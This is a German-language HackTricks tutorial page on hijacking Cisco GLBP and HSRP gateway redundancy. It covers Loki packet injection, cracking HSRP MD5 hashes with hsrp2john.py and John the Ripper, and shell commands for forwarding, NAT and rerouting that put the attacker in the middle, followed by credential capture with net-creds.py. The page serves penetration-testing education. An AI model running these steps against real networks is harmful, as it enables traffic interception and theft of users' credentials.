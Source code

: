 # GLBP & HSRP Angriffe

<details>

<summary><strong>Lernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks bewerben möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories senden.

</details>


## FHRP-Hijacking-Übersicht

### Einblicke in FHRP
FHRP ist darauf ausgelegt, Netzwerkrobustheit zu bieten, indem mehrere Router zu einer einzigen virtuellen Einheit zusammengeführt werden, um die Lastverteilung und Ausfallsicherheit zu verbessern. Cisco Systems hat prominente Protokolle in dieser Suite eingeführt, wie z.B. GLBP und HSRP.

### Einblicke in das GLBP-Protokoll
Die von Cisco entwickelte GLBP funktioniert auf dem TCP/IP-Stack und verwendet UDP auf Port 3222 für die Kommunikation. Router in einer GLBP-Gruppe tauschen "Hello"-Pakete in 3-Sekunden-Intervallen aus. Wenn ein Router diese Pakete 10 Sekunden lang nicht sendet, wird er als offline angesehen. Diese Timer sind jedoch nicht festgelegt und können geändert werden.

### GLBP-Operationen und Lastverteilung
GLBP zeichnet sich dadurch aus, dass es die Lastverteilung über Router mithilfe einer einzigen virtuellen IP in Verbindung mit mehreren virtuellen MAC-Adressen ermöglicht. In einer GLBP-Gruppe ist jeder Router an der Paketweiterleitung beteiligt. Im Gegensatz zu HSRP/VRRP bietet GLBP echte Lastverteilung durch mehrere Mechanismen:

- **Hostabhängige Lastverteilung:** Behält die Zuweisung der AVF-MAC-Adresse an einen Host bei, was für stabile NAT-Konfigurationen wichtig ist.
- **Round-Robin-Lastverteilung:** Der Standardansatz, bei dem die Zuweisung der AVF-MAC-Adresse abwechselnd an anfragende Hosts erfolgt.
- **Gewichtete Round-Robin-Lastverteilung:** Verteilt die Last basierend auf vordefinierten "Gewichts"-Metriken.

### Schlüsselkomponenten und Terminologien in GLBP
- **AVG (Active Virtual Gateway):** Der Hauptrouter, der MAC-Adressen an Peer-Router zuweist.
- **AVF (Active Virtual Forwarder):** Ein Router, der für die Verwaltung des Netzwerkverkehrs zuständig ist.
- **GLBP-Priorität:** Eine Metrik, die den AVG bestimmt, beginnend mit einem Standardwert von 100 und im Bereich von 1 bis 255.
- **GLBP-Gewicht:** Spiegelt die aktuelle Last auf einem Router wider und kann entweder manuell oder über Objektverfolgung angepasst werden.
- **GLBP-Virtuelle IP-Adresse:** Dient als Standardgateway des Netzwerks für alle verbundenen Geräte.

Für Interaktionen verwendet GLBP die reservierte Multicast-Adresse 224.0.0.102 und den UDP-Port 3222. Router senden "Hello"-Pakete in 3-Sekunden-Intervallen und gelten als nicht betriebsbereit, wenn ein Paket über einen Zeitraum von 10 Sekunden verpasst wird.

### GLBP-Angriffsmechanismus
Ein Angreifer kann zum primären Router werden, indem er ein GLBP-Paket mit dem höchsten Prioritätswert (255) sendet. Dies kann zu DoS- oder MITM-Angriffen führen, die das Abfangen oder Umleiten von Datenverkehr ermöglichen.

### Ausführen eines GLBP-Angriffs mit Loki
[Loki](https://github.com/raizo62/loki_on_kali) kann einen GLBP-Angriff durchführen, indem ein Paket mit Priorität und Gewicht auf 255 injiziert wird. Vor dem Angriff müssen Informationen wie die virtuelle IP-Adresse, die Authentifizierungspräsenz und die Routerprioritätswerte mithilfe von Tools wie Wireshark gesammelt werden.

Angriffsschritte:
1. Wechseln Sie in den Promiscuous-Modus und aktivieren Sie die IP-Weiterleitung.
2. Identifizieren Sie den Zielrouter und rufen Sie dessen IP ab.
3. Generieren Sie eine Gratuits ARP.
4. Injizieren Sie ein bösartiges GLBP-Paket, das den AVG imitiert.
5. Weisen Sie der Netzwerkschnittstelle des Angreifers eine sekundäre IP-Adresse zu, die der GLBP-Virtual-IP entspricht.
6. Implementieren Sie SNAT für eine vollständige Sichtbarkeit des Datenverkehrs.
7. Passen Sie die Routing-Einstellungen an, um weiterhin über den ursprünglichen AVG-Router auf das Internet zugreifen zu können.

Durch Befolgen dieser Schritte positioniert sich der Angreifer als "Man in the Middle" und ist in der Lage, den Netzwerkverkehr abzufangen und zu analysieren, einschließlich unverschlüsselter oder sensibler Daten.

Für eine Demonstration finden Sie hier die erforderlichen Befehlsschnipsel:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
Die Überwachung und Abfangen von Datenverkehr kann mithilfe von net-creds.py oder ähnlichen Tools erfolgen, um Daten, die durch das kompromittierte Netzwerk fließen, zu erfassen und zu analysieren.

### Passive Erklärung des HSRP-Hijackings mit Befehlsdetails

#### Überblick über HSRP (Hot Standby Router/Redundancy Protocol)
HSRP ist ein von Cisco entwickeltes proprietäres Protokoll zur Redundanz von Netzwerk-Gateways. Es ermöglicht die Konfiguration mehrerer physischer Router zu einer einzigen logischen Einheit mit einer gemeinsamen IP-Adresse. Diese logische Einheit wird von einem primären Router verwaltet, der den Datenverkehr leitet. Im Gegensatz zu GLBP, das Metriken wie Priorität und Gewicht für die Lastverteilung verwendet, verlässt sich HSRP auf einen einzigen aktiven Router für das Datenverkehrsmanagement.

#### Rollen und Terminologie in HSRP
- **HSRP Active Router**: Das Gerät, das als Gateway fungiert und den Datenfluss verwaltet.
- **HSRP Standby Router**: Ein Backup-Router, der bereit ist, die Rolle des aktiven Routers zu übernehmen, falls dieser ausfällt.
- **HSRP-Gruppe**: Eine Gruppe von Routern, die zusammenarbeiten, um einen einzigen widerstandsfähigen virtuellen Router zu bilden.
- **HSRP-MAC-Adresse**: Eine virtuelle MAC-Adresse, die dem logischen Router in der HSRP-Konfiguration zugewiesen ist.
- **HSRP-Virtuelle IP-Adresse**: Die virtuelle IP-Adresse der HSRP-Gruppe, die als Standardgateway für verbundene Geräte fungiert.

#### HSRP-Versionen
HSRP gibt es in zwei Versionen, HSRPv1 und HSRPv2, die sich hauptsächlich in der Gruppenkapazität, der Verwendung von Multicast-IPs und der Struktur der virtuellen MAC-Adresse unterscheiden. Das Protokoll verwendet spezifische Multicast-IP-Adressen für den Austausch von Dienstinformationen, wobei alle 3 Sekunden Hello-Pakete gesendet werden. Ein Router gilt als inaktiv, wenn innerhalb eines Intervalls von 10 Sekunden kein Paket empfangen wird.

#### HSRP-Angriffsmechanismus
HSRP-Angriffe beinhalten das gewaltsame Übernehmen der Rolle des aktiven Routers durch das Einspritzen eines maximalen Prioritätswerts. Dies kann zu einem Man-in-the-Middle (MITM)-Angriff führen. Wesentliche Schritte vor dem Angriff umfassen das Sammeln von Daten über die HSRP-Konfiguration, was mithilfe von Wireshark zur Verkehrsanalyse erfolgen kann.

#### Schritte zum Umgehen der HSRP-Authentifizierung
1. Speichern Sie den Netzwerkverkehr mit HSRP-Daten als .pcap-Datei.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Extrahieren Sie MD5-Hashes aus der .pcap-Datei mithilfe von hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Knacken Sie die MD5-Hashes mit John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Ausführen der HSRP-Injektion mit Loki**

1. Starten Sie Loki, um HSRP-Anzeigen zu identifizieren.
2. Setzen Sie die Netzwerkschnittstelle in den Promiscuous-Modus und aktivieren Sie die IP-Weiterleitung.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Verwenden Sie Loki, um den spezifischen Router anzugreifen, geben Sie das geknackte HSRP-Passwort ein und führen Sie die erforderlichen Konfigurationen durch, um sich als aktiver Router auszugeben.
4. Nachdem Sie die Rolle des aktiven Routers übernommen haben, konfigurieren Sie Ihre Netzwerkschnittstelle und IP-Tabellen, um den legitimen Datenverkehr abzufangen.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Ändern Sie die Routing-Tabelle, um den Datenverkehr über den ehemaligen aktiven Router zu leiten.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Verwenden Sie net-creds.py oder ein ähnliches Dienstprogramm, um Anmeldeinformationen aus dem abgefangenen Datenverkehr zu erfassen.
```shell
sudo python2 net-creds.py -i eth0
```

Durch Ausführen dieser Schritte befindet sich der Angreifer in der Lage, den Datenverkehr abzufangen und zu manipulieren, ähnlich wie beim Verfahren zum GLBP-Hijacking. Dies verdeutlicht die Schwachstelle in Redundanzprotokollen wie HSRP und die Notwendigkeit robuster Sicherheitsmaßnahmen.


## Referenzen
- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)


<details>

<summary><strong>Lernen Sie das Hacken von AWS von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks bewerben möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegramm-Gruppe**](https://t.me/peass) **bei oder folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) **und** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **GitHub-Repositories senden.**

</details>
